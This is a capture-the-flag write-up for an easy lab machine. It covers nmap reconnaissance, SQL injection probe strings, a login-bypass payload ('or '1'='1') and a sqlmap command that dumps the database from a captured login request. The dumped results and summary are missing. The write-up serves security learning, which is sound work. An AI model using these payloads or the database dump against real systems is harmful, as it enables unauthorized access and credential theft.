

---
tags:
  - Linux
  - HTTP
  - SQL injection
---

... is a very simple HTB machine which hosts an HTTP server which is vulnerable to a very simple SQL injection which allows users to bypass the login.

### Reconnaissance
The tool `nmap` is used to do the initial reconnaissance of any target, as it very reliably sends packets to specific ports of the target to verify if they are open, closed, or filtered. The following command is used as a standard `nmap` scan:
```bash
sudo nmap -sCV $IP
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# sudo: optional, but makes the scan a bit faster and stealthier, as no TCP connect() is used.
# -sC (or --script=default): uses the default scripts of nmap. can quickly discover simple vulnerabilities, such as anonymous logins.
# -sV: further scans open ports to determine the actual service which is running on them, as an open port 80 does not directly imply a HTTP service.
```

the output of `nmap` tells us this:
```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Login
```
This server seems to only host a HTTP service on port 80. Interaction is therefore done with a browser, i am using `firefox`.

By visiting the web-page, i am greeted by a login page. Inspecting the page source and the developer tools (`javascript` files etc.) did not yield meaningful results. Forceful browsing via `dirb` also only found the sources which are found in the `Sources` tab of the developer tools.

### Initial Exploitation
As website logins are most likely querying a database in the back-end to determine if the current login attempt is present in the users table, probing for SQL injections is always a viable strategy. Some example probes have been taken from the [HackTricks](https://hacktricks.wiki/en/pentesting-web/sql-injection/index.html) page for SQL injections:
```bash
' 
" 
` 
') 
") 
`) 
')) 
")) 
`))
```
I've entered these as values, but the login page didn't budge. I've also tried adding comments, but to no avail.
What did work, is the textbook example of `Peter' or '1'='1`. Entering this let me pass and showed me the flag!

### Having fun
I was curious enough to try and dump the database to see what the actual password for the administrator was. To do so, i opened `burpsuite`, so that i can intercept the full request and save it into a file called `test.req`:
```http
POST / HTTP/1.1
Host: 10.10.10.10
Content-Length: 29
...
Connection: keep-alive

username=admin*&password=admin*
```
I have added stars `*` next to the two parameters to let `sqlmap` know where to inject SQL commands. `sqlmap` is a very reliable tool to fully abuse an SQL injection. It may be very noisy (sends a lot of requests) in real scenarios, but in CTFs its pretty fun, especially when dealing with time based injections (like here).
To fully dump the database using SQL injections, i issued this command:
```bash
sqlmap -r test.req --batch --dump
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -r: specify a file which holds a HTTP request
# --batch: automate [Y/n] questions
# --dump: ... the database!
```

After a while of waiting for the time-based SQL injection to finish, i got this info:


I used these two credential pairs to login, and got to the flag site without injecting SQL. Woo-Hoo! I was not able to gain command access to the machine through this injection point though.

### Summary

Below is a visualized summary of the exploitation steps used in this machine.

